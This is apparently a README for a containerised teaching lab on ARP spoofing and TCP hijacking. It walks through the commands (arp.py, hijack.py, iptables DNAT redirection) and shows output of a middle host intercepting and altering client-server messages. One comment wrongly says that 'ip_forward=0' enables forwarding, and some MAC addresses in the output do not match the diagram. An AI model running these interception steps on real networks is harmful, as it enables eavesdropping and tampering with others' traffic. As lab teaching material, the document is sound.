

# ARP spoofing & TCP hijaking

## Network structure

```
            MIDDLE------------\
        subnet2: 198.7.0.3     \
        MAC: 02:42:c6:0a:00:02  \
               forwarding        \ 
              /                   \
             /                     \
Poison ARP 198.7.0.1 is-at         Poison ARP 198.7.0.2 is-at 
           02:42:c6:0a:00:02         |         02:42:c6:0a:00:02
           /                         |
          /                          |
         /                           |
        /                            |
    SERVER <---------------------> ROUTER <---------------------> CLIENT
net2: 198.7.0.2                      |                           net1: 172.7.0.2
MAC: 02:42:c6:0a:00:03               |                            MAC eth0: 02:42:ac:0a:00:02
                           subnet1:  172.7.0.1
                           MAC eth0: 02:42:ac:0a:00:01
                           subnet2:  198.7.0.1
                           MAC eth1: 02:42:c6:0a:00:01
                           subnet1 <------> subnet2
                                 forwarding

```

## Installation

### Requirements

- [docker](https://docs.docker.com/engine/install/)
- [docker-compose](https://docs.docker.com/compose/install/standalone/)


Getting the repository:
```bash
git clone https://github.com/VladSteopoaie/ARPspoofing-TCPhijaking.git
cd ARPspoofing-TCPhijaking
```

Building the containers (docker might require admin permissions):
```bash
docker-compose up -d
```

Now you can connect to each container with the following command:
```bash
docker exec -it <container-id> /bin/bash
# to get the container id you can use `docker ps`
```

## Usage

### Scenario I (client-server communication)

Connect to the `client` container and follow the commands:

```bash
cd scripts
python3 tcp_client.py
```

You should see the `client` hanging with the following message:

```
[~] Connecting to ('198.7.0.2', 10000)...
```

Connect to the `server` container and follow the commands:

```bash
cd scripts
python3 tcp_server.py
```

You should see the `server`'s message:

```
[~] Server listening on 198.7.0.2:10000
[~] Waiting for connections...
```

After a short while the `server` and `client` should communicate and you should see something like this:

```
####### SERVER #######
[~] Handshake with ('198.7.0.1', 51902)
[~] Message received: "b'gAFMG`'"
[~] Message sent: "b'gAFMG`-server'"
[~] Message received: "b'`{qEUHmR'"
[~] Message sent: "b'`{qEUHmR-server'"
[~] Message received: "b'RWfBnD'"
[~] Message sent: "b'RWfBnD-server'"
~~~SNIP~~~

####### CLIENT #######
[~] Handshake with ('198.7.0.2', 10000)
[~] Message sent: "gAFMG`"
[~] Message received: "b'gAFMG`-server'"
[~] Message sent: "`{qEUHmR"
[~] Message received: "b'`{qEUHmR-server'"
[~] Message sent: "RWfBnD"
[~] Message received: "b'RWfBnD-server'"
~~~SNIP~~~
```

Note: The `client` is generating random strings as messages and the `server` is appending '-server' to the data and sends it back.

### Scenario II (ARP spoofing)

Now that we have the `client` and `server` communicating let's add the `middle`.
Connect to the `middle` container and follow the commands:

```bash
cd scripts
sysctl -w net.ipv4.ip_forward=0 # enables packet forwarding
python3 arp.py 198.7.0.1 198.7.0.2 # Usage: python3 arp.py router_ip victim_ip
```

You should see the following:

```
[*] Default Gateway MAC: 02:42:c6:07:00:01
[*] Victim MAC: 02:42:c6:07:00:02
[~] Started ARP poisoning!
[~] Starting network caputre.
```

Start the `client` and `server` as before and wait until some packets are sent.<br>
Stop all the scripts with CTRL^C repeatedly.<br>
On the `middle` container you should have a file that looks like this `198.7.0.2_caputre.pcap`, check if it has some contents. If the file is not empty then the attack was successful and the middle intercepted the packets. You can use `tcpdump -r <file_name>.pcap` to analyze the packets from the terminal or extract the file on your machine with `docker cp` and analyze it in Wireshark.<br> <br>

Here is the file analyzed with Wireshark:


### Scenario III (TCP hijacking)

The process here is similar to the one in Scenario II. Connect to the `middle` container and follow the commands:

```bash
cd scripts
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A POSTROUTING -j MASQUERADE
iptables -t nat -A PREROUTING -s 198.7.0.1 -p tcp --dport 10000 -j DNAT --to-destination 198.7.0.3
python3 hijack.py 198.7.0.1 198.7.0.2 # Usage: python3 hijack.py router_ip victim_ip
```
You should see the same text as for ARP spoofing script.

Now start the `server` and `client` and wait until some packets are sent.
You should see an output similar to this for each container:

```
####### MIDDLE #######
[~] Handshake with ('198.7.0.1', 47994)
[~] Initiating connection with the server...
[~] Handshake with ('198.7.0.2', 10000)
[~] Message received: "b'_SPsNPDU'"
[~] Sending "_SPsNPDU-middle" to server...
[~] Received message: "b'_SPsNPDU-middle-server'"
[~] Sending "_SPsNPDU-middle-server-middle" to the client...
[~] Message received: "b'is`Nt'"
[~] Sending "is`Nt-middle" to server...
[~] Received message: "b'is`Nt-middle-server'"
[~] Sending "is`Nt-middle-server-middle" to the client...
[~] Message received: "b'[vVMY`'"
[~] Sending "[vVMY`-middle" to server...
[~] Received message: "b'[vVMY`-middle-server'"
[~] Sending "[vVMY`-middle-server-middle" to the client...
[~] Message received: "b''"
[!] Connection closed! (fake server)
[!] Connection closed! (fake client)
~~~SNIP~~~

####### SERVER #######
[~] Waiting for connections...
[~] Handshake with ('198.7.0.3', 57532)
[~] Message received: "b'_SPsNPDU-middle'"
[~] Message sent: "b'_SPsNPDU-middle-server'"
[~] Message received: "b'is`Nt-middle'"
[~] Message sent: "b'is`Nt-middle-server'"
[~] Message received: "b'[vVMY`-middle'"
[~] Message sent: "b'[vVMY`-middle-server'"
[X] Connection closed
~~~SNIP~~~

####### CLIENT #######
[~] Connecting to ('198.7.0.2', 10000)...
[~] Handshake with ('198.7.0.2', 10000)
[~] Message sent: "_SPsNPDU"
[~] Message received: "b'_SPsNPDU-middle-server-middle'"
[~] Message sent: "is`Nt"
[~] Message received: "b'is`Nt-middle-server-middle'"
[~] Message sent: "[vVMY`"
[~] Message received: "b'[vVMY`-middle-server-middle'"
~~~SNIP~~~
```

So the `middle` intercepted the packets between the `server` and `client`, it hijaked the connection and appended a message ('-middle') for each packet it captured. 

Note: if the communication is not working and the `client` is hanging, try restarting the hijack.py script.

After closing the scripts don't forget to restore the containers with this commands:

```bash
####### CLIENT & SERVER #######
ip -s -s neigh flush all

####### MIDDLE #######
iptables -t nat -D POSTROUTING -j MASQUERADE
iptables -t nat -D PREROUTING -s 198.7.0.1 -p tcp --dport 10000 -j DNAT --to-destination 198.7.0.3
```
